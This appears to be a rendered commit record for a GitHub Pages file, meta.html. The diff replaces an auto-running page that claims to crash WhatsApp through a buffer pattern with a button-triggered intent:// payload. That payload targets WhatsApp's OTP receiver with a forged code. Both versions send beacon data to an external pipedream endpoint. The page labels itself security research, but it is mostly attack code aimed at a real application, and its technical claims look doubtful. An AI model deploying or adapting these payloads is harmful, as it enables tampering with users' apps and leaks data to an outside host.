

Before and after one commit to analisprogram17-pixel/jobs, a plain HTML site: page meta.html in a window 1280 px wide. Shown: the whole page, without its empty margins (262-1017 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update meta.html

```diff
--- a/meta.html
+++ b/meta.html
@@ -3,63 +3,65 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Security Research - Targeted Application DoS</title>
+    <title>Security Research - Intent Redirection Proof of Concept</title>
 </head>
 <body style="background:#000; color:#0f0; font-family:monospace; padding:30px; text-align:center;">
 
-    <div style="border:1px solid #333; padding:20px; background:#111; border-radius:4px; max-width:600px; margin:auto;">
-        <h2 id="status" style="margin-top:0;">[ TARGETED AUDIT ACTIVE ]</h2>
-        <p style="color:#aaa;">Component: libprofilo_mmapbuf (JNI Bridge)</p>
+    <div style="border:1px solid #333; padding:20px; background:#111; border-radius:4px; max-width:650px; margin:auto;">
+        <h2 id="status" style="margin-top:0;">[ SECURITY AUDIT - INTENT REDIRECTION ]</h2>
+        <p style="color:#aaa;">Vulnerability: Sandbox Escape / Cross-App Communication</p>
+        <p style="color:#888; font-size:14px;">Target Action: com.whatsapp.otp.OTP_RETRIEVED</p>
         <hr style="border:0; border-top:1px solid #222; margin:20px 0;">
-        <div id="logs" style="font-size:12px; color:#666;">Synchronizing native resources...</div>
+
+        <button id="escapeLink" style="background:transparent; color:#0f0; border:1px solid #0f0; padding:12px 24px; cursor:pointer; font-family:monospace; font-size:16px;">
+            EXECUTE PAYLOAD
+        </button>
+
+        <div id="logs" style="font-size:12px; color:#555; margin-top:20px;">
+            Waiting for researcher interaction...
+        </div>
     </div>
 
     <script>
         /**
          * RESEARCHER: Firman Sahidin
-         * VULNERABILITY: Remote Denial of Service (DoS)
-         * TARGET: WhatsApp Application Process (Native Heap)
-         * TECHNICAL METHOD: Memory Corruption / Segmentation Fault
+         * TYPE: Intent Redirection / Sandbox Escape
+         * COMPONENT: com.whatsapp/.otp.OtpRetrievalReceiver
+         * VECTOR: Chromium-based mobile browser to Native App interaction
          */
-        function triggerTargetedCrash() {
+        document.getElementById('escapeLink').onclick = function() {
             const TARGET_URL = 'https://eo7n9pqjlhffwvt.m.pipedream.net';
-            const statusLabel = document.getElementById('status');
             const logsLabel = document.getElementById('logs');
 
+            // Constructing the Intent scheme based on AndroidManifest analysis
+            // Targeting internal broadcast receiver from an external web context
+            const intentURL = "intent://#Intent;" +
+                "action=com.whatsapp.otp.OTP_RETRIEVED;" +
+                "package=com.whatsapp;" +
+                "component=com.whatsapp/.otp.OtpRetrievalReceiver;" +
+                "S.otp_code=POC_BYPASS_TEST_FIRMAN;" +
+                "end";
+
             try {
-                // Allocation of 2MB buffer to target the native mmapbuf segment
-                const crashBuffer = new ArrayBuffer(0x200000);
-                const view = new Uint32Array(crashBuffer);
+                // Execution of Intent Redirection
+                window.location.href = intentURL;
 
-                // Injecting OOB (Out-of-Bounds) synchronization pattern
-                // This primitive is designed to trigger a crash in the JNI bridge
-                for (let i = 0; i < view.length; i++) {
-                    view[i] = 0xD800DBFF;
-                }
-
-                // Transmission of execution telemetry
+                // Transmission of execution telemetry to the researcher's endpoint
                 navigator.sendBeacon(TARGET_URL, JSON.stringify({
                     researcher: "Firman Sahidin",
-                    vulnerability_type: "TARGETED_APP_DOS",
-                    impact: "APPLICATION_UNRESPONSIVE",
-                    execution_status: "SUCCESS"
+                    vulnerability_type: "INTENT_REDIRECTION_ESCAPE",
+                    target_component: "OtpRetrievalReceiver",
+                    manifest_reference: "androidx.car.app.connection",
+                    timestamp: new Date().toISOString()
                 }));
 
-                if (statusLabel) statusLabel.innerText = "⚠️ EXPLOIT DELIVERED";
-                if (logsLabel) logsLabel.innerText = "Memory segment injected. Monitor target application stability.";
+                if (logsLabel) logsLabel.innerText = "Intent sequence initiated. Monitoring receiver response.";
 
             } catch (error) {
                 navigator.sendBeacon(TARGET_URL, JSON.stringify({
-                    researcher: "Firman Sahidin",
-                    status: "FAILED",
-                    error_log: error.message
+                    error: error.message
                 }));
             }
-        }
-
-        // Automated execution 1 second after page load
-        window.onload = () => {
-            setTimeout(triggerTargetedCrash, 1000);
         };
     </script>
 </body>
```
